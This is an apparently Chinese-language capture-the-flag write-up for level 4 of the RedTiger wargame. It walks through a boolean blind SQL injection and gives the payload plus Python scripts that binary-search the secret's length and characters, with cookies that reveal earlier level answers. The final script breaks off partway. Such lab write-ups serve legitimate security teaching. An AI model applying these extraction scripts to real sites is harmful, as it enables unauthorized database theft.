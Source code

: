 利用`布尔盲注`，通过返回页面中`Query returned 1 rows. `的结果来筛选出目标结果。

```
and (select ascii(substr(keyword,1,1)) from level4_secret limit 0,1)<{1}
```

利用脚本来进行盲注很easy。但是需要提前把SQL语句测试准确，以免带来额外的调试。

先获取值的长度，再逐个获取字符。这里采用折半搜索。

```
import requests
import re
url_length="http://redtiger.labs.overthewire.org/level4.php?id=1 and (select length(keyword) from level4_secret limit 0,1)<{0}"

cookies={"level2login":"4_is_not_random",
         "level3login":"feed_your_cat_before_your_cat_feeds_you",
         "level4login":"there_is_no_bug"
        }
h=50
l=1
length=(l+h)/2
while l <= h:
    url = url_length.format(length)
    resp=requests.get(url, cookies=cookies)
    if resp.status_code != 200:
        print "status code error "
    text = resp.content
    if text.find('Query returned 1 rows.') != -1: 
        h = length-1
    else:
        l = length+1
    length =(h+l)/2

print 'length = ', length
```

再进行逐个字符测试。
需要牢记的是ASCII字符集由95个可打印字符（**0x20-0x7E**）和33个控制字符（**0x00-0x19，0x7F**）组成。
由于采取了折半搜索，需要根据返回结果来判断，得到的字符是否需要+1。

```
import requests
import re
url_format="http://redtiger.labs.overthewire.org/level4.php?id=1 and (select ascii(substr(keyword,{0},1)) from level4_secret limit 0,1)>{1}"

cookies={"level2login":"4_is_not_random",
         "level3login":"feed_your_cat_before_your_cat_feeds_you",
         "level4login":"there_is_no_bug"
        }
result = ""
for i in range(1, 21+1):
    print "%d th round"%(i)
    h= 0x7E
    l= 0x20
    flag=0
    while l <= h:
        c=(l+h)/2
        #print 'h=', chr(h)
        #print 'l=', chr(l)
        #print 'c=%d'%c
        url = url_format.format(i,c)
        #print url
        resp=requests.get(url, cookies=cookies)
        if resp.status_code != 200:
```